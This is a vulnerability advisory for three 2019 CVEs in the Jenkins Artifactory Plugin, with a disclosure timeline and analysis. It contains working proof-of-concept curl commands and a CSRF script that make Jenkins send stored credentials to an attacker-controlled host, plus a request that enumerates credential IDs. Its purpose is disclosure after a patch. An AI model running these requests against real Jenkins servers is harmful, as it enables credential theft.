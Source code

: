 ## Jenkins Artifactory Plugin - Information disclosure vulnerabilities

##### Discovered by:
* Peter Adkins <peter.adkins@kernelpicnic.net>

##### Access:
* Local network; authenticated access
* Remote network; authenticated access (See notes)
* Remote network; 'drive-by' via CSRF

##### Tracking and identifiers:
* CVE - CVE-2019-10321
* CVE - CVE-2019-10322
* CVE - CVE-2019-10323

##### Versions Affected:
* Jenkins Artifactory Plugin 3.2.1
* Jenkins Artifactory Plugin 3.2.0

##### Vendor involvement:
* 2019-03-12 - Vendor Disclosure
* 2019-05-28 - Vendor Patched
* 2019-06-04 - Public Release

##### Notes:
1. This may be exploited by an anonymous user if unauthenticated access is enabled in Jenkins.

1. Due to lack of validation of Cross Site Request Forgery (CSRF) token validation, this vulnerability may also be exploited via CSRF.

1. Originally published under [TALOS-2019-0787](https://talosintelligence.com/vulnerability_reports/TALOS-2019-0787) and [TALOS-2019-0846](https://talosintelligence.com/vulnerability_reports/TALOS-2019-0846). Mirrored here here for tracking purposes.

##### Overview:
An exploitable information disclosure vulnerability exists in the `testConnection` endpoint of the Jenkins Artifactory Plugin 3.2.0 and 3.2.1. As a result of this vulnerability a crafted HTTP request from a user with Overall/Read permissions - such as an anonymous user, if enabled - can cause affected versions of this plugin to disclose credentials from the Jenkins credentials database to an attacker controlled server.

In addition to the above, the plugin is also vulnerable to low-level information disclosure via the `fillCredentialsIdItems` endpoint. As a result of this vulnerability a crafted HTTP request from a user with Overall/Read permissions - such as an anonymous user, if enabled - can cause affected versions of this plugin to disclose credential identifiers from the Jenkins credentials database. These credential identifiers may then be used to capture credentials using the vulnerable `testConnection` endpoint.

##### Analysis:
**CVE-2019-10322 - `doTestConnection` missing permission check**

This vulnerability exists in the testConnection endpoint exposed by the `doTestConnection` method of `org.jfrog.hudson.ArtifactoryBuilder` due to missing Jenkins permissions check. To exploit this vulnerability an attacker must know the credential identifier of the credential to leak. This said, this information can be obtained via a number of means, such as additional information disclosure vulnerabilities in this, and other, Jenkins plugins (see below).

Due to the way in which this plugin expects to authenticate against the remote Artifactory instance, the credentials associated with the attacker specified credentialsId are base64-encoded and submitted as part of the HTTP Authorization header to the attacker-controlled server. An example of this attack against a Jenkins 2.165 instance running a vulnerable version of this plugin and configured to allow anonymous read access has been provided below.

```
# Send credentials to an attacker's server (http://192.0.2.1:7000?).
# The trailing '?' is to ensure that the expected path is appended as a
# query parameter, rather than part of the query path.
$ curl -s -X GET -G \
    -d 'artifactoryUrl=http://192.0.2.1:7000/?' \
    -d 'connectionRetry=0' \
    -d 'useCredentialsPlugin=true' \
    -d 'credentialsId=287fcbe2-177e-4108-ac58-efdc0a507376' \
    'http://jenkins.docker.local:8080/descriptorByName/org.jfrog.hudson.ArtifactoryBuilder/testConnection'
```

The request submitted by the plugin to the remote server as an HTTP GET, will appear similar to the following:

```
# First request from Jenkins (GET)
/?/api/system/version
Host: 192.0.2.1:7000
Connection: Keep-Alive
User-Agent: ArtifactoryBuildClient/2.13.3
Accept-Encoding: gzip,deflate
Authorization: Basic U2VjdXJlVXNlcm5hbWU6U2VjdXJlUGFzc3dvcmRPaE5v
```

It is worth noting that as the response from the attacker-controlled server is not in the expected format, the plugin will raise an error but not render the response.

**CVE-2019-10321 - `doTestConnection` CSRF**

This vulnerability exists in the `testConnection` endpoint exposed by the doTestConnection method of `org.jfrog.hudson.ArtifactoryBuilder` due to missing CSRF validation.

The payload below could be embedded in a webpage and will successfully execute a request against the target Jenkins instance on page load. Due to lack of CSRF validation in the plugin, and lack of additional mitigations such as `SameSite` Cookie attribute, this JSONP (JSON with padding) request will utilize any currently authenticated Jenkins sessions for the configured target. This payload has been confirmed working in Safari 12.1.1 (14607.2.6.1.1) and Google Chrome 74.0.3729.169.

It's worth noting that despite the use of JSONP, the response content is not accessible due to a MIME type mismatch (`application/json` versus `application/javascript`) and explicit `X-Content-Type: nosniff` header being returned by Jenkins. This said, the request will still execute as expected, performing an onward request to the attacker's server (specified by the `artifactoryUrl` parameter) containing the credentials associated with the specified credentialsId.

```
<!-- Perform request in the background. This proof-of-concept requires jQuery. -->
<script>
  $(document).ready(function() {
    target = 'http://jenkins.docker.local:8080'
    $.ajax({
        url: target + "/descriptorByName/org.jfrog.hudson.ArtifactoryBuilder/testConnection",
        jsonp: "jsonp",
        dataType: "jsonp",
        data: {
            artifactoryUrl: "http://192.0.2.1:7000/?",
            connectionRetry: "0",
            useCredentialsPlugin: "true",
            credentialsId: "287fcbe2-177e-4108-ac58-efdc0a507376",
            pretty: true,
        },
        success: function(data) {}
    });
  });
</script>
```

The request submitted by the plugin to the remote server as an HTTP GET, will appear similar to the following:

```
# First request from Jenkins (GET)
/?/api/system/version
Host: 192.0.2.1:7000
Connection: Keep-Alive
User-Agent: ArtifactoryBuildClient/2.13.3
Accept-Encoding: gzip,deflate
Authorization: Basic U2VjdXJlVXNlcm5hbWU6U2VjdXJlUGFzc3dvcmRPaE5v
```

**CVE-2019-10323 - `fillCredentialsIdItems` low-level information disclosure**

This vulnerability exists in the `fillCredentialsIdItems` endpoint exposed by the `doFillCredentialsIdItems` method of `org.jfrog.hudson.ArtifactoryBuilder` due to missing Jenkins permissions check. The result of this vulnerability is low level information disclosure. This information may be useful for an attacker as it may be used in conjunction with additional vulnerabilities in this, or other, Jenkins plugins (see above).

```
# List username / password credentials on target Jenkins instance.
$ curl -s -X GET -G \
    -d 'pretty=true' \
    'http://jenkins.docker.local:8080/descriptorByName/org.jfrog.hudson.ArtifactoryBuilder/fillCredentialsIdItems'
{
    "_class": "com.cloudbees.plugins.credentials.common.StandardListBoxModel",
    "values": [
        {
            "name": "- none -",
            "selected": false,
            "value": ""
        },
        {
            "name": "BBBBBB/****** (ExampleOnly)",
            "selected": false,
            "value": "01e367ef-54fb-4da0-8044-5112935037bb"
        },
        {
            "name": "SecureUsername/****** (Credentials for X)",
            "selected": false,
            "value": "287fcbe2-177e-4108-ac58-efdc0a507376"
        }
    ]
}
```
